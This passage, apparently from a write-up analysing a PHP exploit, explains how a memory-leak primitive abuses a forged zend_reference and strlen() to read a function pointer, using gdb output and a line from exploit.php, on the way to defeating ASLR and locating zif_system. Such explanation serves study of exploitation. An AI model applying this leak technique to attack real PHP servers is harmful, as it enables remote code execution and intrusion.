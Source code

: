 This is an address of a structure that contains many function pointers which will help us to get the base address of the binary later on:

```
gdb-peda$ p *$mytmpObj->handlers  <------ we are dereferencing 0xef6dc0
$197 = {
  offset = 0x0,
  free_obj = 0x734000 <zend_object_std_dtor>, <--- soon to be leaked using leak()
  dtor_obj = 0x734110 <zend_objects_destroy_object>,
  clone_obj = 0x734760 <zend_objects_clone_obj>,
 ..... more .....
```

We will leak a value at ``0xef6dc0 + 0x8`` ([line 196](exploit.php#L196) in the exploit):
```php
$binary_leak = leak($closure_handlers, 8);
``` 

By calling ``leak(0xef6dc0, 8)``, the exploit author managed to:
1. Jump straight to ``0xef6dc0 + 8 - 16`` by making the malicious ``zend_reference.val.value``(of $helper->a) to point to this address. 
2. And then, he calls ``strlen($helper->a)`` which reads the content of ``0xef6dc0 + 8 - 16 + 16`` (notice how the ``+16`` in this step zero-out the ``-16`` from step 1).

``binary_leak`` now contains ``0x734000`` .

Here's the same thing but from a debugging session perspective:

This is what ``strlen()`` saw when it fetched the "length" for us:
```
gdb-peda$ p (zend_string)*0xef6db8 <--- this is 0xef6dc0 + 8 - 16
$199 = {
  gc = {
    refcount = 0x0,
    u = {
      v = {
        type = 0x0,
        flags = 0x0,
        gc_info = 0x0
      },
      type_info = 0x0
    }
  },
  h = 0x0,
  len = 0x734000, <------ our leaked value at offset of +16! this is [free_obj = 0x734000 <zend_object_std_dtor>]
  val = "\020"
}
```

#profit

## Overcoming ASLR: Finding ``zif_system``

Let's recap
